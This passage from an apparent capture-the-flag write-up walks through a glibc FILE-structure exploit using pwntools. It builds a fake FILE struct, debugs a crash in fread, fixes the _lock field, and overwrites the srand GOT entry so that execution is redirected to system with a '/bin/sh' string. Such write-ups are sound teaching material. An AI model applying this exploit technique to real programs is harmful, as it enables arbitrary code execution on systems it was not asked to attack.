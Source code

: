 ```python
p.sendline(b"r")

# weirdly, need this to trigger the buffering
# just ctrl c
p.interactive()

payload = flat(
    0x404181,
    libc.sym.system,
)
p.sendline(payload)

p.interactive()
```

(above, we need to enter `p.interactive` once to trigger the buffering or
something - just ctrl c to exit it)

When we run the script, we run into a slight issue:

```
 ► 0x7f6446497444 <fread+84>     mov    rax, qword ptr [rdi + 8]     RAX, [8] => <Cannot dereference [8]>
   0x7f6446497448 <fread+88>     je     fread+99                    <fread+99>

   0x7f644649744a <fread+90>     test   rax, rax
   0x7f644649744d <fread+93>     je     fread+288                   <fread+288>
```

It tries to dereference `some_addr + 0x8` - definitely we forgot to set some
field in our fake `FILE`. Let's see where we crashed in `fread`:

```
   0x00007f6446497429 <+57>:    mov    rax,QWORD PTR fs:0x10
   0x00007f6446497432 <+66>:    mov    rdi,QWORD PTR [rcx+0x88]
   0x00007f6446497439 <+73>:    cmp    BYTE PTR [rip+0x184c00],0x0
   0x00007f6446497440 <+80>:    mov    QWORD PTR [rbp-0x38],rax
=> 0x00007f6446497444 <+84>:    mov    rax,QWORD PTR [rdi+0x8]
   0x00007f6446497448 <+88>:    je     0x7f6446497453 <fread+99>
```

`rcx` contains the pointer to our fake `FILE` struct. `rdi` stores the dereferenced
value of `rcx + 0x88` - if we refer to the struct of `_IO_FILE_completed_plus`
above, we can see that this field is `_lock`. So we just need to set `_lock` to
a valid (writable) address.

```python
payload = flat(
    0xdeadbeefcafebabe,
    0x68732f6e69622f2f,
    0x4040a0,
    {
        0x0: 0xfbad2488,
        0x38: exe.got.srand - 0x8, # buf_base
        0x40: exe.got.srand + 0x8, # buf_end
        0x88: 0x404800, # lock
        0x90: 0, # fd
    },
    0x68732f6e69622f2f,
    endianness="big",
    filler=b"\x00",
)
```
